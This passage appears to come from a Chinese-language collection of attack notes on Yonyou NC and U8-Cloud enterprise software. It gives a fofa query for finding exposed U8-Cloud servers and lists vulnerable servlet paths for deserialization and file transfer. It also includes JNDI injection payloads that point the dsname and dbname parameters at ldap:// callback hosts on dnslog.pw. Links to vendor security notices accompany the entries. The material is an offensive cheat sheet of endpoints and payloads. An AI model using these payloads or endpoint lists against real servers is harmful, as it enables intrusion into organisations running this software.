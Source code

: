 ```
  </env:Body>
</env:Envelop>
```

具体文章：https://novysodope.github.io/2022/12/10/96/

#### registerServlet

接口：hotwebs/portal/WEB-INF/web.xml

```
/portal/registerServlet

type=1&dsname=ldap://asdasd.u5rj53uh.dnslog.pw
```

#### testper.jsp

```
/testper.jsp?dbname=ldap://123.1hz4ilnc.dnslog.pw
```

https://security.yonyou.com/#/noticeInfo?id=369



## U8-Cloud

fofa：app="用友-U8-Cloud"

### 反序列化

#### ServiceDispatcherServlet

接口：webapps/u8c_web/WEB-INF/web.xml

```
/ServiceDispatcherServlet
```

https://security.yonyou.com/#/noticeInfo?id=361

#### NCServiceForESBInvoker

modules\uapeai\META-INF\lib\uapeaipfxx.jar!\nc\bs\pfxx\NCServiceForESBInvoker.class

```
/service/ESBInvokerServlet
/service/~uapeai/nc.bs.pfxx.NCServiceForESBInvoker
```

https://security.yonyou.com/#/noticeInfo?id=254

#### FileTransportServlet

modules\iufo\lib\pubiufoiufoserver.jar!\nc\ui\iufo\server\center\FileTransportServlet.class

```
/service/~iufo/nc.ui.iufo.server.center.FileTransportServlet
```
